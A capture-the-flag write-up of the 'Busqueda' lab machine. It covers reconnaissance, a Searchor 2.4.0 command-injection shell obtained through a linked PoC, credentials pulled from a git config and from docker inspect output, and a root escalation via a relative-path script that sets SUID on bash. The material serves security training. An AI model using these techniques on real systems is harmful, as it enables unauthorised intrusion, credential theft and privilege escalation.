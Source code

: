 ### IP
`10.10.11.208`

# Reconnaissance

### nmap

`nmap -sC -sV 10.10.11.208`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-18 21:12 EDT
Nmap scan report for 10.10.11.208
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can add `searcher.htb` to `/etc/hosts` to see the website

On the bottom of the website, it says "`Powered by Flask and Searchor 2.4.0`"
	It seems that `Searchor 2.4.0` is [vulnerable to command injection](https://security.snyk.io/package/pip/searchor/2.4.0)


# Exploitation


I found a [POC](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) online


We can run `./exploit.sh searcher.htb <tun0>` and we get a shell as `svc@busqueda`

Theres a user flag in `/home/svc`

# Privilege Escalation

In the home directory, we can find a `.gitconfig` file that gives us an email of `cody@searcher.htb`

In webroot (`/var/www/app/`), we also find a `.git` directory, which indicates that it is a git repository. 

Here, there's a `config` file:

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
``` 

This gives us a password for the `cody` user on the `gitea.searcher.htb` as `jh1usoih2bkjaspwe92`
	We can add this subdomain into `/etc/hosts` and we see a website for `gitea`, which is a git web service.
	From here, we can log in as the `cody` user and we can see that there is also an `administrator` user and we can see the repo for the webapp we initially were on


I checked `/etc/passwd` to see if there was a cody user, but there wasn't, so I tried the password for `sudo -l` and it works:

```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We can now see that the `svc` user can execute a python script as root. We also can now ssh into the `svc` user for a more stable shell since we have its password.

We can't read the python script or any of the files in the scripts directory, but we can run the script to get its usage:

```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

This allows us to see the running containers (with `docker-ps`) and also lets us run `docker inspect` (with `docker-inspect`)

One thing that I accidentally discovered was that the `full-checkup` option is probably trying to run `/opt/scripts/full-checkup.sh` using a relative path. 
	This is because running the python script from the wrong directory gives us the output `Something went wrong` but running it from `/opt/scripts` gives us output.
	This is what we end up exploiting to privesc, so I will explain the issue in more detail later. 

Running `docker-ps` provides some useful information by showing us which ports are exposed and showing the names of the images that the containers are based on.
	We can see a web service (gitea) and mysql

Running the python script with `docker-inspect` gives us the following usage:

```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

We have the docker container IDs from `docker-ps`, so now we just have to find out what the format means. I looked it up online and found [the docker reference for the inspect command](https://docs.docker.com/engine/reference/commandline/inspect/)


There are several useful outputs, but the most useful one was `{{json .Config}}`, which gets the entire docker config as json.
	Something I realized later is that we also could have just used `{{.Config}}`, which would have printed the config as well 

This config includes credentials to sensitive things like the mysql password, as shown below:


`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a`
```json
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e`
```json
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```


Here is some of the useful information we got:
```
MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF

MYSQL_USER=gitea
MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh
```


Based on this, I tried logging into the database from the machine but wasn't able to. I also tried using the credentials to log in to root, but that didn't work either.

However, if we test the `yuiu1hoiu4i5ho1uh` password with the `administrator` user on gitea, we get access.
	This allows us to read the contents of the files in `/opt/scripts`

The vulnerable part of the `system-checkup.py` script is shown below:

```python
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Note that the `full-checkup` command runs `./full-checkup.sh` as a relative, rather than absolute, path. This is something we guessed earlier, but this confirms it. 

This also shows why we were getting `Something went wrong` as a result. The directory we were running from didn't have the script in it. 

Thus, because we can run the python script as sudo and it will spawn a child process using `./full-checkup.sh`, we can just make our own `full-checkup.sh` script to privesc.

I used the following:

```bash
#!/bin/bash

chmod +s /bin/bash
````

From here, we can run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` and we can notice that bash is now an suid binary.

We can then run bash with privileges using `bash -p` and we have a root shell.

There is a flag in `/root/root.txt`